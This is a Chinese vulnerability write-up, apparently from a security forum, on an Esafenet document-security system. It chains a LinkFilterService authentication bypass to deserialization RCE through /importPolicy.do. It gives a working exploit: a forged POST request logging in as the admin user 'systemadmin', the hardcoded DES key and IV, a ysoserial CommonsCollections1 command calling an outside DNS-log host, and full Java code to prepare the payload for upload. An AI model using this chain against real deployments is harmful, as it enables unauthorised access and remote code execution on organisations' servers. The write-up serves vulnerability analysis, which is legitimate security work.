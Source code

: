 

# 亿赛通 LinkFilterService 权限绕过到后台 rce 漏洞分析 - 先知社区

亿赛通 LinkFilterService 权限绕过到后台 rce 漏洞分析

- - -

# LinkFilterService 权限绕过

## 漏洞描述

2023 年 12 月，互联网上披露亿赛通电子文档安全管理系统旧版本相关接口存在权限绕过与代码执行漏洞。攻击者可构造恶意请求绕过身份认证，结合相关功能造成远程代码执行。

## 漏洞分析

查看 web.xml，定位到接口如下  
[![](assets/1708919700-c6a08c5945a8e8170d09ca2baabc47a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144013-bc580a12-cef1-1.png)  
步入对应的 servlet-class：com.esafenet.filter.LinkFilter  
跟入代码，代码逻辑比较清晰，基本代码逻辑都在这几个方法中  
[![](assets/1708919700-be9aadc792a2058ce1516dfcf4b2d812.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144146-f3ec6392-cef1-1.png)  
service 函数中，会对前端传入的参数 path、userId、cur 分别进行判断处理。此处先对 path 中是否携带有`/client/AppExamList.jsp?username=`进行判断，如果不存在则会获取到 username 的 value 值，并进行`CDGUtil.encode`函数的加密（至于这个加密函数，我们之后还会碰到），从而获取 sId，并调用`buildLinkURL`函数，根据函数名及上下文推测是用来构造 302 跳转地址的 url。  
[![](assets/1708919700-a91bb2d27e07d971f465dae35945730b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144225-0b02f92e-cef2-1.png)  
假设符合上述判断，步入`buildLinkURL`，此时传入的 path 为`/client/AppExamList.jsp?username=xxx`，对应的我们会得到 95 行构造的 url，即：`http://host:port/CDGServer3/client/AppExamList.jsp;jsessionid=sid?username=xxx`  
[![](assets/1708919700-9a02d9b9841b65b7b126ca7420b24655.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144255-1c8583ba-cef2-1.png)  
但这里获取到的 url 并没有涉及任何关于用户判断认证并且会触发 return 提前结束 service 函数，因此要保障函数不步入 if 语句。  
继续审计 service 中对其他参数的判断处理：传入的 cur 参数在被解密封装为 time 后，步入`isOverTime`函数，假如函数返回 true 那么 service 函数将提前结束  
[![](assets/1708919700-26a451044f801e7239194c599f543463.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144430-5536a680-cef2-1.png)  
`isOverTime`函数将当前时间和传入时间进行相减并除以 1000L 将单位转换为秒，若超过`exam.timeout`设定的 600s，则为超时，返回 true。  
[![](assets/1708919700-1699c2c885658684def969a2899b9923.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144448-5ff53f50-cef2-1.png)  
[![](assets/1708919700-76df0379e730cb26da284719b752713d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144500-674ae5a2-cef2-1.png)  
如果未超时，函数将继续执行至`buildSessionId`  
[![](assets/1708919700-9de665bf7f37d95495d939b4b8793d30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144521-73884a30-cef2-1.png)  
传入的 userId 为可控的前端参数，`userDao.findUserById`会根据传入的 userId，返回 user 对象。接着 if 语句会判断 session 中是否携带有 loginMng 的值，若为空则会调用`LoginMng.login`函数  
[![](assets/1708919700-7c6cc355657a4e888f146241675b6454.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144547-83847fe4-cef2-1.png)  
此时步入 LoginMng 类中，该类保存的是用户的登录相关字段，而上文中调用的是 loginMng 类中 login 的重载方法

```bash
public class LoginMng implements Serializable {
        ...
    private User user;
    private boolean isLogin;
    private boolean isAdmin = false;

    public LoginMng() {
    }
    public boolean login(String loginName, String password) throws Exception {
        if (loginName != null && !loginName.equals("")) {
          ...
            return this.isLogin;
        } else {
            this.isLogin = false;
            return this.isLogin;
        }
    }
  public void login(User u) {
        ...
        if (u.getUserName().equals("admin") && u.getUserId().equals("100400000001")) {
            this.setAdmin();
        } else {
            this.isAdmin = false;
        }
        this.user = u;
        this.isLogin = true;
    }
```

当传入的 userid 存在时，则会获取到 LoginMng 用户凭证，赋值到 session 中，并返回 session 会话的唯一标识符。步入`userDao.findUserById`可发现执行 sql 语句为`select * from WF_USER where USER_NAME = ?`，userid 作为传入的参数，即通过用户名查询并返回用户。

```bash
public User findUserById(String userId) throws Exception {
    User user2 = null;
        ...
    new User();
    String sql = "select * from WF_USER where USER_NAME = ? ";
    Object[] params = new Object[]{new String(userId)};
    HashMap[] maps = this.getCommonResults(sql, params);
    if (maps != null && maps.length > 0) {
        ...
        return user;
    } else {
        return null;
    }
}
```

返回的 session id 作为 sid 传入`buildLinkURL`，构造跳转地址  
[![](assets/1708919700-f10f5b6088c4a3161566bdb77fce8e16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144727-beede7c8-cef2-1.png)  
总结一下：前端可传入 cur、path、userId 三个值，path 明文为 uri 路径，用作跳转，此处可输入后台地址路径：/frame.jsp；cur 明文为时间戳，尽量往大了取，原则上是大于 600s；userId 明文为存在的用户名，亿赛通管理员用户名为 systemadmin。  
CDGUtil 加解密可以直接导入亿赛通原有的 jar 包来调用函数，能省去不少麻烦。  
[![](assets/1708919700-06ec648e656d3040fe77b48a072c0823.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144753-ce8c1344-cef2-1.png)

## 漏洞复现

明文 userid=systemadmin，cur=2099-11-11 12:12:12，path=/frame.jsp

```bash
System.out.println("userid: " + encode("systemadmin"));
System.out.println("cur: " + encode("2099-11-11 12:12:12"));
System.out.println("path: " + encode("/frame.jsp"));
```

加密处理得到密文  
[![](assets/1708919700-5a2e024271c3803b801aa0d47a46a939.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144807-d6e2ab2a-cef2-1.png)  
数据包如下：

```bash
POST /CDGServer3/LinkFilterService HTTP/1.1
Host: 

path=BOFGGPFBFIFPBHFMGKGi&userId=GCGHGAGGFAFHFGFCFEFPFD&cur=KKPCJHNBBFBFFHOFBKENGDGFNGIBLBLBCJCPCP
```

成功进入后台  
[![](assets/1708919700-628e39011f19f6d4597cb039d1274c04.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144846-ee2f8b2c-cef2-1.png)

# 后利用

前段时间狂爆的反序列化漏洞就不再提了，基本都是前台 xstream 反序列化牵扯出的一系列接口。这里提一个后台 rce 接口：`/importPolicy.do`  
文件上传接口获取到 file 文件，获取到文件流后，对数据进行`CDGUtil.encode`加密，密文将传入`byteToObject`函数  
[![](assets/1708919700-a4bb98d84e65ed85789965d91a25d63b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144933-09c2c444-cef3-1.png)  
`byteToObject`中是标准的反序列化代码，此时 bs 可控，rce 近在咫尺。需要解决的就是`CDGUtil.encode`的加密  
[![](assets/1708919700-c0870f774089b4d1cc146b873381de3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219144951-14f9463a-cef3-1.png)  
步入`CDGUtil.encode`，加密方式是一段 DES/CBC/PKCS5Padding 模式的加密，key 与 iv 均为 esafenet。  
[![](assets/1708919700-5f69d9dacfe8c294b7794ab916a0a3b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219145009-1f5f2dba-cef3-1.png)  
后端处理文件的过程：文件传入->DES 加密->反序列化，因此 rce 的思路就很明确了：生成序列化文件->使用 DES 解密->上传文件，亿赛通还有 commons-collections3.1 依赖，此处使用 cc1 来进行 rce。

## 漏洞复现

使用 yso 生成 cc1

```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 'ping zkilvkinpf.dgrh3.cn' >cc1.ser
```

使用如下代码对 cc1.ser 进行 des 解密，并输出至 1.txt

```bash
import com.esafenet.ta.policy.utils.EncryptUtil;
import com.esafenet.util.CodeDecoder;
import java.io.ByteArrayInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Array;
import java.util.Base64;

import static com.esafenet.util.CDGUtil.decode;
import static com.esafenet.util.CDGUtil.encode;
import org.apache.commons.io.FileUtils;
import org.apache.commons.logging.Log;
import org.apache.commons.logging.LogFactory;
import org.w3c.dom.Document;
import sun.misc.BASE64Decoder;

import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.DESKeySpec;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;

public class CDGdecode {
    public static void main(String[] args) throws Exception {
        byte[] bytes = desEncrypt("/Users/cc1.ser");
        File file = new File("1.txt");
        FileOutputStream fileOutputStream = new FileOutputStream(file);
        fileOutputStream.write(bytes);
        System.out.println(new String(bytes));
    }
    public static byte[] desEncrypt(String filepath) throws Exception{
        File file = new File(filepath);
        byte[] filebyte = new byte[(int) file.length()];
        FileInputStream fileInputStream = new FileInputStream(file);
        fileInputStream.read(filebyte);
        Cipher cipher = Cipher.getInstance("DES/CBC/PKCS5Padding");
        DESKeySpec dks = new DESKeySpec("esafenet".getBytes());
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance("DES");
        SecretKey securekey = keyFactory.generateSecret(dks);
        IvParameterSpec iv = new IvParameterSpec("esafenet".getBytes());
        cipher.init(Cipher.ENCRYPT_MODE,securekey,iv);
        byte[] bytes = cipher.doFinal(filebyte);
        String s = new String(bytes);
        System.out.println(s);
        return bytes;
    }
}
```

使用 yakit 将解密后输出的文件传入接口中  
[![](assets/1708919700-3a58c209303fbb937c2f20c90cf542e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219145206-6576cbe6-cef3-1.png)  
此时服务器成功执行命令，实现 rce  
[![](assets/1708919700-2e867142b95856f81d95208c718ced85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219145220-6d474bac-cef3-1.png)
